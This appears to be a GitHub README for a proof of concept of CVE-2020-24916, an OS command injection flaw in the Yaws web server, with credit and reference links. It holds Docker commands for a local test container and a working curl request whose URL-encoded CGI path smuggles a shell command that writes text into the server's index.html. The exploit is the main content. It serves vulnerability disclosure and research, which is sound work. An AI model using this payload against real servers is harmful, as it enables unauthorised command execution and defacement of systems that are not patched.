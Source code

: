# OS command injection in Yaws web server (CVE-2020-24916)

## Proof of concept

Build test image:

`docker build -t vulnbe/yaws-pocs:shell-injection-appmod-cgi -f Dockerfile .`

and/or

Run container `docker run --rm -d -i -p 127.0.0.1:8000:8080 vulnbe/yaws-pocs:shell-injection-appmod-cgi`

```bash
curl 'http://127.0.0.1:8000/cgi-bin/%22%60export%20Z=$(pwd%7Ccut%20-c1);echo%20pawned%20completely%3E%3E..$Z%22%22index.html%60%22'
curl http://127.0.0.1:8000/index.html
```

## Credit

Alexey Pronin ([@vulnbe](https://twitter.com/vulnbe))

## References

* [Vulnerability analysis](https://vuln.be/post/yaws-shell-injection/)
* [Yaws on github](https://github.com/erlyaws/yaws)
* [CVE-2020-24916](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-24916)
* [CWE-78: Improper Neutralization of Special Elements used in an OS Command ('OS Command Injection')](https://cwe.mitre.org/data/definitions/78.html)
